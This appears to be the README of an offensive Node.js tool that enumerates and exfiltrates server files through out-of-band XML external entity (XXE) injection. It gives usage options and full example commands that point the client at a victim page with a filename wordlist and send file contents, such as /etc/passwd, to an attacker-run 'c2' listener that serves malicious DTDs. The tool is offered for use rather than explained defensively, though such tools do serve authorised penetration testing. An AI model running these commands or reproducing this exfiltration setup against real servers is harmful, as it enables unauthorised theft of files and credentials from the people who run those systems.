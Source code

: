 # XXE Enum
Enumerate and exfiltrate files via out of band XXE, for situations where resolved entity is not displayed in the response, and directory listing is not available.

client.js would take a list of filenames, try exfiltrate the content of those files via XXE from your main target server, and server.js would serve external DTDs and receive the exfiltrated file content.

If other servers are parsing XML stored in your main target at a later time, you could also configure your server to serve a different DTD to conduct a different action or to track which server that "/etc/passwd" was from.

## Usage
**server.js**

```
$ node server.js -h

Options
        -h				Print this message

        -p <port>		The listening port, e.g. -p 1337, default 8800
        --b64			Use this option if expecting file content to be passed as base64
        --target <target_ip>	Use this option if you want to send different dtds to different servers, 
        e.g. send "send.dtd" only to your main target (target_ip), and send "send-alt.dtd" to any potential second order XXEs
        --https			Use this option if you want to start https server
        --key <key file>	The key file used to start https server, e.g. --key /root/key.pem
        --cert <cert file>	The cert file used to start https server, e.g --cert /root/cert.crt

// out of the box
$ node server.js

// use a different port
$ node server.js -p 1337

// start a https server
$ node server.js -p 1337 --https --key /root/key.pem --cert /root/cert.crt

// serve send.dtd only to 192.168.1.100, while send send-alt.dtd to all other IPs, 
// if they are requesting the external DTD, i.e. vulnerable to XXE
$ node server.js --target 192.168.1.100
```

**client.js**

```
$ node client.js -h

Options
        -h			Print this message

        -u <url>		(Required) the victim page, e.g. -u http://vulnerable.site:8080/page.php?a=1
        -w <wordlist>		(Required) the wordlist to load, e.g. -w /usr/share/wordlists/filenames.txt
        --c2 <url>		(Required) the server where server.js is run and waiting for incoming request 
        from victim, e.g. --c2 http://attacker.site:8090

        --proxy <proxy>		The http proxy to go through for all requests, e.g. --proxy http://127.0.0.1:8080
        --base <path>		The base path prefixed to all filenames, e.g. --base "/var/www", default "/"
        --php			Use this option if the server can handle php protocols, i.e. able to encode 
        the file content using base64
        -t <thread>		Indicate how many threads to run simultaneously, e.g. -t 15, default 5
        -v			Verbose output
        --headers <headers>	Additional request headers (besides content-type, content-length, and host) in JSON format, e.g. --headers '{"X-CSRF-Token": "awesome_token", "Cookie": "sid=secret_session; admin=1;"}'
        --body <xml>		The normal POST request body, e.g. --body "<subscribe><email>test@example.com</email><name>test</name></subscribe>", 
        default: <login><username>test</username><password>test</password></login>

// minimal
$ node client.js -u http://192.168.1.100/subscribe.php?redirect=1 \
-w /usr/share/wordlists/filenames.txt \
--c2 http://192.168.1.200:8800

// full blown
$ node client.js -u http://192.168.1.100/subscribe.php?redirect=1 \
-w /usr/share/wordlists/filenames.txt --c2 http://192.168.1.200:8800 \
--proxy http://127.0.0.1:8080 --base "/var/www" -t 15 --php -v \
--headers '{"Cookie": "sid=secret_session; admin=1;", "Referer": "http://192.168.1.100/index.php"}' \
--body "<subscribe><email>test@example.com</email><name>test</name></subscribe>"
```

## TODO
- https proxy not working. Only http proxy atm